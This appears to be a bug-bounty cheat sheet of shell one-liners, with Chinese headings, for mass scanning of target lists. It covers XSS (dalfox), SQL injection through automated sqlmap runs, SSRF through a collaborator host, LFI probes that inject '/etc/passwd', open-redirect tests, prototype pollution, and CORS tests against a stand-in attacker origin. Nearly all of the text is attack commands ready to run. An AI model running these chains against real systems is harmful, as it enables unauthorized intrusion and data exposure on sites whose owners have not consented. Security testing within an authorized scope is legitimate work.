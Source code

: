 #### XSS
	cat targets.txt | anew | httpx -silent -threads 500 | xargs -I@ dalfox url @
	cat targets.txt | getJS | httpx --match-regex "addEventListener\((?:'|\")message(?:'|\")"
#### 注入
	httpx -l targets.txt -silent -threads 1000 | xargs -I@ sh -c 'findomain -t @ -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1'
#### SSRF
  	findomain -t http://target.com -q | httpx -silent -threads 1000 | gau |  grep "=" | qsreplace http://YOUR.burpcollaborator.net
#### LFI本地文件包含
  	gau http://vuln.target.com | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
#### 重定向
  	gau http://vuln.target.com | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
#### 原型链污染
  	subfinder -d http://target.com | httpx -silent | sed 's/$/\/?__proto__[testparam]=exploit\//' | page-fetch -j 'window.testparam=="exploit"?"[VULN]":"[NOT]"' | sed "s/(//g"|sed"s/)//g" | sed "s/JS//g" | grep "VULN"
#### CORS
  	gau http://vuln.target.com | while read url;do target=$(curl -s -I -H "Origin: https://evvil.com" -X GET $url) | if grep 'https://evvil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done
#### 导出JS
  	echo http://target.com | haktrails subdomains | httpx -silent | getJS --complete | tojson | anew JS1
	assetfinder http://vuln.target.com | waybackurls | grep -E "\.json(?:onp?)?$" | anew 
#### 截图
  	assetfinder -subs-only http://target.com | httpx -silent -timeout 50 | xargs -I@ sh -c 'gowitness single @' 
#### 存活主机和域名
  	subfinder -d http://vuln.target.com -silent | httpx -silent -follow-redirects -mc 200 | cut -d '/' -f3 | sort -u
#### 从Hackerone导出资产
  	curl -sL https://github.com/arkadiyt/bounty-targets-data/blob/master/data/hackerone_data.json?raw=true | jq -r '.[].targets.in_scope[] | [.asset_identifier, .asset_type]